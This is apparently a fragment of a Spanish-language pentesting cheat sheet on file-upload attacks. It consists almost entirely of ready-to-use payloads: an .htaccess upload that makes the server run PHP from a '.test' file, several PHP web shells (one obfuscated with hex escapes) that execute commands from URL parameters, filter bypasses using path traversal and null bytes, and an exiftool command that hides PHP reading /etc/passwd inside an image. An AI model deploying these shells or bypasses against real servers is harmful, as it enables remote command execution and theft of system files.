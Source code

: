 -- -
### htaccess posioning

 ```php
1. Content-Disposition: form-data; name="fileToUpload"; filename=".htaccess" 
    Content-Type: text/plain
    AddType application/x-httpd-php .test 
2. 
	Content-Disposition: form-data; name="fileToUpload"; filename="cmd.test" 
	Content-Type: application/x-php
	
	<?php
		system($_GET['cmd']);
	?>
```

### Otro tipo de metodos
```bash
1.
	../shell.php
2.
	%2e%2e%2fshell.php
3.
	shell.php%00.jpg
4.
	exiftool -comment="<?php echo 'LOOK HERE' . file_get_contents('/etc/passwd'); ?>" background.png
```

**Otro tipo de webshells en php:**
```php
<?=`$_GET[0]`?>

<?php
	$c=$_GET['cmd'];
	 echo `$c`;
?>

<?php
	"system"("id");
?>

<?php
	"\x73\x79\x73\x74\x65\x6d"($_GET['cmd']);
?>
```


